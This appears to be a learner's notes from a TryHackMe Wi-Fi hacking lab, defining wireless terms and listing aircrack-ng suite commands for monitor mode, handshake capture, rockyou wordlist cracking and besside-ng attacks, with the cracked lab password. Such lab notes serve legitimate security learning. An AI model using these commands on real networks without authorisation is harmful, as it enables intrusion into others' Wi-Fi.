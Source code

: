 
# Matheus Jesus 04-04-2020

## Try Hack Me - Wifi Hacking 101 (https://tryhackme.com/room/wifihacking101)

### Key Terms

* SSID: The network "name" that you see when you try and connect
* ESSID: An SSID that *may* apply to multiple access points, eg a company office, normally forming a bigger network. For Aircrack they normally refer to the network you're attacking.
* BSSID: An access point MAC (hardware) address
* WPA2-PSK: Wifi networks that you connect to by providing a password that's the same for everyone
* WPA2-EAP: Wifi networks that you authenticate to by providing a username and password, which is sent to a RADIUS server.
* RADIUS: A server for authenticating clients, not just for wifi.

1. WPA-PSK - Password only
2. WPA-EAP - Username and Password 

### Commands

#### airmon-ng

1. sudo airmon-ng check kill 
2. sudo airmon-ng start wlan0 -> interface shall be renamed to wlan0mon

#### airdump-ng

1. sudo airdump-ng --bssid --channel -w

#### aircrack-ng

1. sudo aircrack-ng -b -w -j

**/usr/share/wordlists/rockyou.txt** wordlist

**BSSID 02:1A:11:FF:D9:BD**

Found password **greeneggsandham**

sudo aircrack-ng -b 02:1A:11:FF:D9:BD -w /usr/share/wordlists/rockyou.txt -j output NinjaJc01-01.cap

My BSSID
A2:C7:C4:9D:33:BB  

sudo airmon-ng start wlan0
sudo airodump-ng prism0
sudo aireplay-ng --test prism0
sudo besside-ng prism0 -b A2:C7:C4:9D:33:BB